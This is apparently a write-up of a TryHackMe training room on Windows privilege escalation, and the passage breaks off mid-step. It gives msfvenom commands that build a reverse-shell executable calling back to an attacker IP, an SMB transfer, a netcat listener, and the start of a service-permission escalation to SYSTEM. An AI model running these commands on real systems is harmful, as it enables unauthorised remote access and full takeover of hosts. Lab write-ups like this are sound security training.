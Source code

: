 | [![Windows PrivEsc](/_static/images/windowsprivesc-room-banner.png)](https://tryhackme.com/room/windows10privesc) |
|:--:|
| [https://tryhackme.com/room/windows10privesc](https://tryhackme.com/room/windows10privesc) |

# Windows PrivEsc

This room is excellent for reinforcement of the most common Windows privilege escalation techniques. 

## Generate a reverse shell executable

On Kali, generate a reverse shell executable (`reverse.exe`) using `msfvenom`. Update the `LHOST` IP address 
accordingly:

    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe

Transfer the `reverse.exe` file to the `C:\PrivEsc` directory on Windows. There are many ways you could do this, 
and the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard 
Windows copy command to transfer the file.

On Kali, in the same directory as reverse.exe:

    sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

On Windows (update the IP address with your Kali IP):

    copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

Test the reverse shell by setting up a netcat listener on Kali:

    sudo nc -nvlp 53

Then run the `reverse.exe` executable on Windows and catch the shell:

    C:\PrivEsc\reverse.exe

The `reverse.exe` executable will be used in many of the tasks, so do not delete it!

## Service exploits - Insecure service permissions

Use `accesschk.exe` to check the `user` account's permissions on the `daclsvc` service:

    C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc

Note that the "user" account has the permission to change the service config (`SERVICE_CHANGE_CONFIG`).

Query the service and note that it runs with `SYSTEM` privileges (`SERVICE_START_NAME`):

    sc qc daclsvc

Modify the service config and set the `BINARY_PATH_NAME` (`binpath`) to the `reverse.exe` executable you created:
